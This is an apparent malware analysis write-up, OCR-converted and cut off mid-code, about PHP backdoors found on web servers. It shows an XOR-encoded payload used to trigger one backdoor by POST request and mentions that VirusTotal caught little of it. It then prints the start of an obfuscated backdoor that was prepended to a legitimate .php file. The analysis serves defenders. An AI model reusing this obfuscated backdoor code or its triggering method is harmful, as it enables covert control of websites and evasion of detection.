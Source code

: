 | // Convert XOR\'ed payload into a hexadecimal string\                 |
| \$finishedPayload = \@unpack(\"H\*\", \$pXOR);                        |
+-----------------------------------------------------------------------+
|                                                                       |
+-----------------------------------------------------------------------+

That gives us following payload:

  -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
  \[\
  \"payload\" =\> \"050f1202180e130b1a530315530150725303510d4951113c316357541d744460260a5c7e18760845470b521e16161b0142171c4a45070b157e085a59047a2f4a78651e0e4c7e410a7c47405c\"\
  \]

  -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

And with a POST request to the initial script, we get a fine little "Hi"
message. =)

Oh and btw, VirusTotal had limited detection rate for this piece.

![](Pictures/1000020100000488000002C37A91EE22AFE9E030.png){width="6.2709in"
height="3.8193in"}

[]{#anchor-1}PHP Backdoor script analysis 2

Embedded backdoor found prepended onto an existing valid .php file.

The script is rather large, so I have cut out some of the string
concatenation parts.

Check pastebin link for full source \[link\]

+-----------------------------------------------------------------------+
| \<?php \$gb2407 = 578;\$GLOBALS\[\'rb22c05fb\'\] = Array();global     |
| \$rb22c05fb;\$rb22c05fb =                                             |
| \$GLOBALS;\${\"\\x47\\x4c\\x4fB\\x41\\x4c\\x53\"}\[\'f884b\'\] =      |
| \"\\x6e\\x25\\x6f\\x3a\\x7a\\x34\\x4a\\x27\\x62\\x38\\x47\\x3f\\x6d\\ |
| x45\\x73\\x37\\x2f\\x3c\\x52\\x28\\x71\\x66\\x69\\x2d\\x50\\x75\\x53\ |
| \xa\\x78\\x77\\x68\\x2b\\x9\\x5d\\x51\\x6b\\x3e\\x2e\\x5a\\x67\\x49\\ |
| x7c\\x60\\x61\\x5b\\x7b\\x46\\x4c\\x22\\x4f\\x42\\x26\\x31\\x58\\x4d\ |
| \x44\\x6c\\x7d\\x63\\x59\\x23\\x5c\\x29\\x32\\x7e\\xd\\x40\\x3d\\x5e\ |
| \x76\\x30\\x5f\\x33\\x21\\x4b\\x4e\\x56\\x6a\\x65\\x74\\x43\\x57\\x79 |
| \\x35\\x41\\x39\\x2a\\x24\\x64\\x55\\x72\\x3b\\x20\\x2c\\x36\\x48\\x5 |
| 4\\x70\";\$rb22c05fb\[\$rb22c05fb\[\'f884b\'\]\[69\].\$rb22c05fb\[\'f |
| 884b\'\]\[78\].\$rb22c05fb\[\'f884b\'\]\[83\].\$rb22c05fb\[\'f884b\'\ |
| ]\[9\].\$rb22c05fb\[\'f884b\'\]\[88\].\$rb22c05fb\[\'f884b\'\]\[83\]. |
| \$rb22c05fb\[\'f884b\'\]\[5\].\$rb22c05fb\[\'f884b\'\]\[72\].\$rb22c0 |
| 5fb\[\'f884b\'\]\[63\]\]                                              |
| =                                                                     |
| \$rb22c05fb\[\'f884b\'\]\[58\].\$rb22c05fb\[\'f884b\'\]\[30\].\$rb22c |
| 05fb\[\'f884b\'\]\[90\];\$rb22c05fb\[\$rb22c05fb\[\'f884b\'\]\[12\].\ |